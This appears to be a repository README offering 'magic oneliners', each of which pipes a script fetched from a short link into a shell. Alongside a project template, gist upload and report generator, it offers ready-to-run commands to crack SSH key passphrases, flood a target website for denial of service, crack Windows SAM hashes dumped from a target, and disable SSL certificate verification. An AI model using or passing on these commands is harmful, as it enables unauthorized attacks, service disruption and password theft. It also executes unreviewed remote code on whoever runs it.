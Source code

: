 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## Oneliners

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/service_templated)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

* [Upload encrypted stuff to your gist](https://shortly.fun/upload-gist)

First create a github token [here](https://github.com/settings/tokens/new) if you haven't already used `hub login`.

```
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/upload-gist | zsh -s <path-to-file> <name-of-gpg-recipient> [optional: <github-token-with-gist-permissions>]
```

* Decrypt those gists again :D

```
curl  --proto '=https' --tlsv1.2 -L -sSf  | base64 -d | gpg --decrypt
```

* [Crack sam_hashes](https://shortly.fun/cracksam)

If you have successfully dumped hashes from the sam database of a Windows target and stored them to a file you can use the following scrip to retrieve the cleartext passwords:

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | zsh -s <absolute-path-to-hashes> <absolute-path-to-wordlist>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | bash -s <absolute-path-to-hashes> <absolute-path-to-wordlist>
```


* [Disable ssl verification](https://shortly.fun/no-ssl-verification)

If you want to disable ssl verification for a software which uses openssl or gnutls as a shared library you can do the following:
```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | zsh -s <some-command-you-want-to-disable-ssl-verification-for>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | bash -s <some-command-you-want-to-disable-ssl-verification-for>
```


* [Generate a report](https://github.com/4thel00z/reportgen)

In case you are a l33t h4x0r who wants to render the nicest OSCP pentesting report or some boring stuff documentation for your newest JS hipster framework with 666 stars you can use the following command on a markdown that looks like [this](https://raw.githubusercontent.com/4thel00z/reportgen/master/example.md):

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/genreport  | zsh -s example.md example.pdf
```

## License

This project is licensed under the GPL-3 license.
